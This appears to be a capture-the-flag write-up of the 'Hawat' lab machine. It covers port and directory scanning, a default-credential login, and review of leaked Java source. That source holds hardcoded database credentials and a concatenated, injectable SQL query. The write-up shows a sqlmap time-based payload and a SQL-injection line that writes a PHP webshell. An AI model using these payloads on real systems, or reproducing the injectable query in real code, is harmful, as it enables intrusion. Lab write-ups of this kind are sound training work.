 ```yaml
---
description: Broken for me.
---
```


# Hawat

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.147
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 12:15 +08
Warning: 192.168.157.147 giving up on port because retransmission cap hit (10).
Stats: 0:03:25 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 85.65% done; ETC: 12:19 (0:00:35 remaining)
Nmap scan report for 192.168.157.147
Host is up (0.17s latency).
Not shown: 65481 filtered tcp ports (no-response), 50 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
17445/tcp open  unknown
30455/tcp open  unknown
50080/tcp open  unknown
```

Did a detailed scan on the non HTTP ports.&#x20;

```
$ sudo nmap -p 17445,30455,50080 -sC -sV --min-rate 4000 192.168.157.147
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 12:19 +08
Nmap scan report for 192.168.157.147
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
17445/tcp open  unknown
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: DENY
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Fri, 14 Jul 2023 04:20:05 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <title>Issue Tracker</title>
|     <link href="/css/bootstrap.min.css" rel="stylesheet" />
|     </head>
|     <body>
|     <section>
|     <div class="container mt-4">
|     <span>
|     <div>
|     href="/login" class="btn btn-primary" style="float:right">Sign In</a> 
|     href="/register" class="btn btn-primary" style="float:right;margin-right:5px">Register</a>
|     </div>
|     </span>
|     <br><br>
|     <table class="table">
|     <thead>
|     <tr>
|     <th>ID</th>
|     <th>Message</th>
|     <th>P
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: DENY
|     Content-Length: 0
|     Date: Fri, 14 Jul 2023 04:20:05 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Fri, 14 Jul 2023 04:20:05 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
30455/tcp open  http    nginx 1.18.0
|_http-title: W3.CSS
|_http-server-header: nginx/1.18.0
50080/tcp open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
|_http-title: W3.CSS Template
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.15
| http-methods:
```

### Web Enum -> Source Code

Port 17445 had some kind of ticket creator:

<figure><img src="../../../.gitbook/assets/image (3548).png" alt=""><figcaption></figcaption></figure>

Default creds didn't work, so let's move on. Port 30445 just didn't load for me for some reason.&#x20;

Port 50080 shows a Pizza website:

<figure><img src="../../../.gitbook/assets/image (3717).png" alt=""><figcaption></figcaption></figure>

The website was rather static. I did a directory scan on all the ports. Port 50080 has a `/cloud` directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.157.147:50080 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.157.147:50080
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/14 12:24:36 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 244] [--> http://192.168.157.147:50080/images/]
/4                    (Status: 301) [Size: 239] [--> http://192.168.157.147:50080/4/]
/cloud                (Status: 301) [Size: 243] [--> http://192.168.157.147:50080/cloud/]
```

When viewed, it shows a login page:

<figure><img src="../../../.gitbook/assets/image (3549).png" alt=""><figcaption></figcaption></figure>

We can login with `admin:admin`. There, we see an `issuetracker.zip` file:

<figure><img src="../../../.gitbook/assets/image (3193).png" alt=""><figcaption></figcaption></figure>

We can download this to our Kali machine and unzip it. This would reveal source code for a website.

```
$ ll
total 32
-rw-r--r-- 1 kali kali  1495 Feb  2  2021 HELP.md
-rwxr-xr-x 1 kali kali 10070 Feb  2  2021 mvnw
-rw-r--r-- 1 kali kali  6608 Feb  2  2021 mvnw.cmd
-rw-rw-r-- 1 kali kali  2248 Feb  5  2021 pom.xml
drwxr-xr-x 4 kali kali  4096 Feb  2  2021 src
```

### Source Code Analysis -> SQLI RCE

The source code was in Java and for the application running on port 17445. I looked thorugh the files and found this within `src/main/java/com/issue/tracker/issues/IssueController.java`:

```java
        @GetMapping("/issue/checkByPriority")
        public String checkByPriority(@RequestParam("priority") String priority, Model model) {
                // 
                // Custom code, need to integrate to the JPA
                //
            Properties connectionProps = new Properties();
            connectionProps.put("user", "issue_user");
            connectionProps.put("password", "ManagementInsideOld797");
        try {
                        conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/issue_tracker",connectionProps);
                    String query = "SELECT message FROM issue WHERE priority='"+priority+"'";
            System.out.println(query);
                    Statement stmt = conn.createStatement();
                    stmt.executeQuery(query);
```

This bit of code here gave us credentials, and also is vulnerable to SQL injection since the `priority` variable is not sanitsed before being passed in. I registed a user on the machine, and then proceeded to test the SQL Injection using `sqlmap`:

```
$ sqlmap -r req
---
Parameter: priority (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: priority=' AND (SELECT 3165 FROM (SELECT(SLEEP(5)))JlSD) AND 'aCou'='aCou
---
```

Normally, this should be rather easy to write a webshell using a payload like this:

```sql
' union select '<?php system($_REQUEST['cmd']); ?>' into outfile '/srv/http/cmd.php' -- -
```

However I don't know the document root, and `sqlmap` brute force doesn't seem to work. I took a hint and realised that port 30445 was supposed to host `phpinfo.php`, but it was unresponsive.&#x20;

I read the walkthrough and it shows that `/srv/http` is the document root taken from `phpinfo.php`, which would allow me to write a webshell to port 30445.

Here's a link to the supposed solution:

{% embed url="https://bing0o.github.io/posts/pg-hawat/" %}
